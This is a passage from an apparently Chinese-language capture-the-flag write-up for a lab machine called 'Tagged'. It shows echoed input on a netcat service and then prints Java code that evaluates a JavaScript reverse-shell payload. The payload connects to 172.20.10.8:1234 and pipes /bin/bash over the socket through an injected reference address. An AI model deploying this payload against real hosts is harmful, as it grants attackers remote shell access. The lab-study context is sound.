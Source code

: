 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729304.png" alt="image-20240413162816932" style="zoom:50%;" />

尝试输入test，发现存在回显：

```bash
┌──(kali💀kali)-[~/temp/Tagged]
└─$ nc 172.20.10.9 7746
>test
>
```

```bash
┌──(kali💀kali)-[~]
└─$ curl http://172.20.10.9/index.php
<h1>TAGZ</h1>
<pre>test</pre>
```

所以它是放在`<pre>`标签内的，尝试执行反弹shell！！！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729305.png" alt="image-20240413164416780" style="zoom:50%;" />

```javascript
String command = "var host = '172.20.10.8';" +
                       "var port = 1234;" +
                       "var cmd = '/bin/bash';"+
                       "var s = new java.net.Socket(host, port);" +
                       "var p = new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();"+
                       "var pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();"+
                       "var po = p.getOutputStream(), so = s.getOutputStream();"+
                       "print ('Connected');"+
                       "while (!s.isClosed()) {"+
                       "    while (pi.available() > 0)"+
                       "        so.write(pi.read());"+
                       "    while (pe.available() > 0)"+
                       "        so.write(pe.read());"+
                       "    while (si.available() > 0)"+
                       "        po.write(si.read());"+
                       "    so.flush();"+
                       "    po.flush();"+
                       "    java.lang.Thread.sleep(50);"+
                       "    try {"+
                       "        p.exitValue();"+
                       "        break;"+
                       "    }"+
                       "    catch (e) {"+
                       "    }"+
                       "}"+
                       "p.destroy();"+
                       "s.close();";
String x = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\""+command+"\")";
ref.add(new StringRefAddr("x", x);
```
